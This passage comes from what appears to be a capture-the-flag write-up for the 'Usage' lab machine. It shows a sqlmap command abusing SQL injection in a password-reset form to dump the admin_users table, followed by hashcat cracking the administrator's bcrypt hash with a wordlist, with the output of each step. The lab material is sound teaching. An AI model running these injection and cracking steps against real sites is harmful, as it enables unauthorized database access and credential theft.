 ```terminal
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog

```

It found three databases, the one that interests us is `usage_blog`.

Let's dump the whole database.

```bash
sqlmap -u http://usage.htb/forget-password --form --batch --level 5 --risk 3 -D usage_blog --tables --dump
```

> This can take a lot of time so go take a walk or prepare a meal and come back.
{: .prompt-warning }
> For slightly faster results use `sqlmap -u http://usage.htb/forget-password --form --batch --level 5 --risk 3 -D usage_blog -T admin_users -C password,name --dump
`, This dumps the name and password columns from admin_users tables which is our target.
{: .prompt-info }

![hash](10.png)

On the `admin_users` table we find user `Administrator` with the hash `$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2`

Let's crack the hash using hashcat with the mode 3200.

```terminal
hashcat -m 3200 admin.hash rockyou.txt

Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2:whatever1

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH...fUPrL2
Time.Started.....: Thu Apr 25 11:14:15 2024 (28 secs)
Time.Estimated...: Thu Apr 25 11:14:43 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      110 H/s (12.91ms) @ Accel:1 Loops:1 Thr:16 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3072/14344384 (0.02%)
Rejected.........: 0/3072 (0.00%)
Restore.Point....: 1536/14344384 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1023-1024
Candidate.Engine.: Device Generator
Candidates.#1....: clover -> dangerous
```
